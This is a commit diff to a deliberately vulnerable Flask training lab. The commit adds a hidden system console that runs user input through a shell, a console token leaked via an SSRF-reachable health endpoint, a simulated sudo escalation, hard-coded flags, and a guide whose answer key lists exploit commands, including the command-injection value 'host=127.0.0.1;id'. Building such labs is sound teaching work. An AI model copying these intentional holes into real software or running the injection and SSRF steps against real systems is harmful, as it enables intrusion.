

Before and after one commit to codingsushi79/vulnerableonpurpose, a Flask app: page /guide in a window 1280 px wide. Shown: the part 2796-3964 px from the top of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 3571 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Implement host compromise features and update documentation
- Added a simulated host filesystem and a hidden system console for post-exploitation practice.
- Introduced new flags for host shell and root access, enhancing the challenge.
- Updated the guide and README to include instructions for accessing the new console and obtaining flags.
- Enhanced CSS for the console interface and added relevant input fields in the check form.

```diff
--- a/app.py
+++ b/app.py
@@ -32,6 +32,7 @@ from markupsafe import Markup
 APP_DIR = Path(__file__).resolve().parent
 DB_PATH = APP_DIR / "vulnlab.db"
 SECRETS_DIR = APP_DIR / "secrets"
+HOST_FS = APP_DIR / "host_fs"
 
 # Hard-coded secrets students should discover via recon / exploitation
 ADMIN_PASSWORD = "Sup3rS3cr3t!"
@@ -44,6 +45,9 @@ CMDI_FLAG = "VULN{c0mm4nd_1nj3ct}"
 SSRF_FLAG = "VULN{ssrf_1ntern4l}"
 BACKUP_FLAG = "VULN{b4ckup_expos3d}"
 RESET_FLAG = "VULN{w34k_r3s3t_t0k3n}"
+HOST_CONSOLE_TOKEN = "c0ns0l3_t0k_8e1a4f"
+HOST_USER_FLAG = "VULN{sh3ll_4cc3ss}"
+HOST_ROOT_FLAG = "VULN{r00t_0n_b0x}"
 
 # Labels match the /check form — shown when each value is discovered
 CHECK_LABELS = {
@@ -61,6 +65,8 @@ CHECK_LABELS = {
     "ssrf_flag": "SSRF flag",
     "backup_flag": "Backup config flag",
     "reset_flag": "Password reset flag",
+    "host_user_flag": "Host shell flag",
+    "host_root_flag": "Host root flag",
 }
 
 app = Flask(__name__)
@@ -92,6 +98,7 @@ def close_db(_exc):
 
 def init_db():
     SECRETS_DIR.mkdir(exist_ok=True)
+    init_host_fs()
     (SECRETS_DIR / "backup_flag.txt").write_text(
         f"CONFIDENTIAL BACKUP\n"
         f"{check_tag('lfi_flag')}: {LFI_FLAG}\n",
@@ -99,6 +106,16 @@ def init_db():
     )
     (SECRETS_DIR / "employee_records.txt").write_text(
         "Employee SSN fragments — internal use only\n", encoding="utf-8"
+    )
+    (SECRETS_DIR / "deployment_notes.txt").write_text(
+        "SecureCorp portal deployment notes\n"
+        "---------------------------------\n"
+        "App process user: www-data\n"
+        "Emergency sysconsole (internal only):\n"
+        "  GET /sys/console?token=<host_console_token from /internal/health>\n"
+        "Host layout mirrored at host_fs/ for break-glass recovery.\n"
+        "See home/www-data/notes.txt on the host after shell access.\n",
+        encoding="utf-8",
     )
 
     db = sqlite3.connect(DB_PATH)
@@ -169,6 +186,106 @@ def init_db():
     )
     db.commit()
     db.close()
+
+
+def init_host_fs():
+    """Simulated host filesystem for post-exploitation shell practice."""
+    dirs = [
+        HOST_FS / "home" / "www-data",
+        HOST_FS / "root",
+        HOST_FS / "etc",
+        HOST_FS / "var" / "log",
+    ]
+    for d in dirs:
+        d.mkdir(parents=True, exist_ok=True)
+
+    (HOST_FS / "home" / "www-data" / "notes.txt").write_text(
+        "www-data shell — post-compromise notes\n"
+        "--------------------------------------\n"
+        f"User proof: cat home/www-data/user_flag.txt\n"
+        f"  ({check_tag('host_user_flag')})\n"
+        "Root: sudo cat root/flag.txt  (NOPASSWD configured)\n"
+        f"  ({check_tag('host_root_flag')})\n"
+        "Real host: commands also run in host_fs/ — try ls, cat, find\n",
+        encoding="utf-8",
+    )
+    (HOST_FS / "home" / "www-data" / "user_flag.txt").write_text(
+        f"{check_tag('host_user_flag')}: {HOST_USER_FLAG}\n", encoding="utf-8"
+    )
+    (HOST_FS / "root" / "flag.txt").write_text(
+        f"{check_tag('host_root_flag')}: {HOST_ROOT_FLAG}\n", encoding="utf-8"
+    )
+    (HOST_FS / "etc" / "passwd").write_text(
+        "root:x:0:0:root:/root:/bin/bash\n"
+        "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n",
+        encoding="utf-8",
+    )
+    (HOST_FS / "var" / "log" / "auth.log").write_text(
+        "Mar  4 09:12:01 securecorp-web sudo: www-data : TTY=unknown ; "
+        "PWD=/var/www/securecorp ; USER=root ; COMMAND=/bin/cat /root/flag.txt\n",
+        encoding="utf-8",
+    )
+
+
+def console_authed() -> bool:
+    return session.get("console_authed") is True
+
+
+def authenticate_console(token: str | None) -> bool:
+    if token == HOST_CONSOLE_TOKEN:
+        session["console_authed"] = True
+        return True
+    return console_authed()
+
+
+def execute_console_command(cmd: str) -> str:
+    cmd = cmd.strip()
+    if not cmd:
+        return ""
+
+    if cmd == "help":
+        return (
+            "Built-ins: help, whoami, id, pwd, uname\n"
+            "Browse: ls, cat, find, grep\n"
+            "Privesc: sudo cat root/flag.txt\n"
+            "Hint: you are www-data with passwordless sudo for cat on /root/flag.txt"
+        )
+
+    if cmd == "whoami":
+        return "www-data"
+    if cmd == "id":
+        return "uid=33(www-data) gid=33(www-data) groups=33(www-data)"
+    if cmd == "pwd":
+        return "/var/www/securecorp"
+    if cmd.startswith("uname"):
+        return "Linux securecorp-web 5.15.0-91-generic #1 SMP x86_64 GNU/Linux"
+
+    if cmd.startswith("sudo "):
+        inner = cmd[5:].strip()
+        if inner in ("cat root/flag.txt", "cat /root/flag.txt"):
+            try:
+                return (HOST_FS / "root" / "flag.txt").read_text(encoding="utf-8")
+            except OSError as exc:
+                return str(exc)
+        return f"sudo: www-data is not allowed to execute '{inner}'"
+
+    try:
+        completed = subprocess.run(
+            cmd,
+            shell=True,
+            capture_output=True,
+            text=True,
+            timeout=5,
+            cwd=str(HOST_FS),
+        )
+        output = completed.stdout + completed.stderr
+        if not output.strip():
+            output = f"(exit {completed.returncode})"
+        return output.rstrip()
+    except subprocess.TimeoutExpired:
+        return "Command timed out."
+    except OSError as exc:
+        return str(exc)
 
 
 def decode_session_cookie(raw: str | None) -> dict:
@@ -449,14 +566,36 @@ def fetch_url():
 
 @app.route("/internal/health")
 def internal_health():
-    # Intended to be reached via SSRF, not linked in nav
+    port = request.environ.get("SERVER_PORT", "5000")
     return {
         "status": "ok",
         "environment": "internal",
         "ssrf_flag": SSRF_FLAG,
         "ssrf_flag_check_label": CHECK_LABELS["ssrf_flag"],
+        "host_console_token": HOST_CONSOLE_TOKEN,
+        "host_console_url": f"http://127.0.0.1:{port}/sys/console?token={HOST_CONSOLE_TOKEN}",
         "message": "Internal health check — not for external callers.",
     }
+
+
+@app.route("/sys/console", methods=["GET", "POST"])
+def sys_console():
+    token = request.args.get("token", "")
+    if not authenticate_console(token):
+        return (
+            "403 Forbidden — valid host console token required. "
+            "Obtain token from internal services only.",
+            403,
+        )
+
+    history = session.get("console_history", [])
+    if request.method == "POST":
+        cmd = request.form.get("cmd", "")
+        output = execute_console_command(cmd)
+        history = history + [{"cmd": cmd, "output": output}]
+        session["console_history"] = history[-20:]
+
+    return render_template("console.html", history=history)
 
 
 @app.route("/reset", methods=["GET", "POST"])
@@ -484,10 +623,9 @@ def robots():
     body = """User-agent: *
 Disallow: /backup/
 Disallow: /internal/
+Disallow: /sys/
 Disallow: /api/user/
 Disallow: /secrets/
-
-# Old admin panel moved to /backup/config.bak
 """
     return app.response_class(body, mimetype="text/plain")
 
@@ -552,6 +690,8 @@ def check():
         add(CHECK_LABELS["ssrf_flag"], submitted.get("ssrf_flag") == SSRF_FLAG)
         add(CHECK_LABELS["backup_flag"], submitted.get("backup_flag") == BACKUP_FLAG)
         add(CHECK_LABELS["reset_flag"], submitted.get("reset_flag") == RESET_FLAG)
+        add(CHECK_LABELS["host_user_flag"], submitted.get("host_user_flag") == HOST_USER_FLAG)
+        add(CHECK_LABELS["host_root_flag"], submitted.get("host_root_flag") == HOST_ROOT_FLAG)
 
         score = sum(1 for c in checks if c["ok"])
         results = {
@@ -576,7 +716,11 @@ def api_status():
 
 
 if __name__ == "__main__":
-    if not DB_PATH.exists() or os.environ.get("VULNLAB_RESET") == "1":
+    if (
+        not DB_PATH.exists()
+        or not HOST_FS.exists()
+        or os.environ.get("VULNLAB_RESET") == "1"
+    ):
         init_db()
     port = int(os.environ.get("PORT", 5000))
     print(f"\n  VulnLab running at http://127.0.0.1:{port}")
--- a/templates/check.html
+++ b/templates/check.html
@@ -52,6 +52,12 @@
     <label for="reset_flag">{{ check_labels.reset_flag }}</label>
     <input id="reset_flag" name="reset_flag" autocomplete="off">
 
+    <label for="host_user_flag">{{ check_labels.host_user_flag }}</label>
+    <input id="host_user_flag" name="host_user_flag" autocomplete="off">
+
+    <label for="host_root_flag">{{ check_labels.host_root_flag }}</label>
+    <input id="host_root_flag" name="host_root_flag" autocomplete="off">
+
     <button type="submit">Submit</button>
   </form>
 
--- a/templates/guide.html
+++ b/templates/guide.html
@@ -225,15 +225,49 @@ VULNLAB_RESET=1 python app.py</pre>
   </section>
 
   <section class="guide-phase">
-    <h2>Phase 9 — Submission</h2>
-    <p><strong>Goal:</strong> Score 14/14 on the hidden form.</p>
+    <h2>Phase 9 — Host compromise</h2>
+    <p><strong>Goal:</strong> Get a shell on the server and escalate to root.</p>
     <ol>
-      <li>Collect every labeled value from the site.</li>
+      <li>Find documentation about the host environment (deployment notes, internal APIs).</li>
+      <li>Obtain the host console token from an internal-only endpoint.</li>
+      <li>Open the hidden system console and run commands as the web process user.</li>
+      <li>Read the user proof flag, then escalate privileges to read root's flag.</li>
+    </ol>
+    <p><strong>Done when:</strong> You have both host shell and host root flags.</p>
+
+    <details class="guide-hints">
+      <summary>Hints</summary>
+      <div class="guide-hint-body">
+        <details>
+          <summary>Deployment documentation</summary>
+          <p>Read <code>deployment_notes.txt</code> via the file viewer. It mentions the sysconsole and internal health check.</p>
+        </details>
+        <details>
+          <summary>Console token</summary>
+          <p>SSRF to <code>/internal/health</code> returns <code>host_console_token</code> and <code>host_console_url</code>.</p>
+        </details>
+        <details>
+          <summary>System console</summary>
+          <p>Visit <code>/sys/console?token=TOKEN</code> — blocked in <code>robots.txt</code>. Run <code>help</code>, then explore with <code>ls</code> and <code>cat</code>.</p>
+        </details>
+        <details>
+          <summary>Privilege escalation</summary>
+          <p>Read <code>home/www-data/notes.txt</code> on the console. www-data can run <code>sudo cat root/flag.txt</code> without a password.</p>
+        </details>
+      </div>
+    </details>
+  </section>
+
+  <section class="guide-phase">
+    <h2>Phase 10 — Submission</h2>
+    <p><strong>Goal:</strong> Score 16/16 on the hidden form.</p>
+    <ol>
+      <li>Collect every labeled value from the site and host.</li>
       <li>Find the submission form (not linked in navigation).</li>
       <li>Enter each value under its matching label.</li>
       <li>Submit <strong>Yes</strong> for Stored XSS if your payload ran.</li>
     </ol>
-    <p><strong>Done when:</strong> The form shows 14/14 complete.</p>
+    <p><strong>Done when:</strong> The form shows 16/16 complete.</p>
 
     <details class="guide-hints">
       <summary>Hints</summary>
@@ -265,7 +299,9 @@ LFI flag: VULN{l0cal_f1le_r3ad}
 Command injection flag: VULN{c0mm4nd_1nj3ct}
 SSRF flag: VULN{ssrf_1ntern4l}
 Backup config flag: VULN{b4ckup_expos3d}
-Password reset flag: VULN{w34k_r3s3t_t0k3n}</pre>
+Password reset flag: VULN{w34k_r3s3t_t0k3n}
+Host shell flag: VULN{sh3ll_4cc3ss}
+Host root flag: VULN{r00t_0n_b0x}</pre>
       </div>
     </details>
 
@@ -276,7 +312,11 @@ Password reset flag: VULN{w34k_r3s3t_t0k3n}</pre>
 curl -s http://127.0.0.1:5000/backup/config.bak
 curl -s http://127.0.0.1:5000/api/user/3
 curl -s "http://127.0.0.1:5000/files?name=backup_flag.txt"
+curl -s "http://127.0.0.1:5000/files?name=deployment_notes.txt"
 curl -s "http://127.0.0.1:5000/fetch?url=http://127.0.0.1:5000/internal/health"
+curl -s "http://127.0.0.1:5000/sys/console?token=c0ns0l3_t0k_8e1a4f"
+# on console: cat home/www-data/user_flag.txt
+# on console: sudo cat root/flag.txt
 curl -s -X POST http://127.0.0.1:5000/tools/ping -d "host=127.0.0.1;id"
 python3 -c "import base64; print(base64.urlsafe_b64encode(b'admin').decode().rstrip('='))"
 curl -s "http://127.0.0.1:5000/reset?user=admin&token=YWRtaW4"</pre>
```
Also changed, not shown: GUIDE.md (+1 -0 lines), static/style.css (+98 -0 lines), templates/console.html (added, +32 -0 lines), README.md, 1 other file.
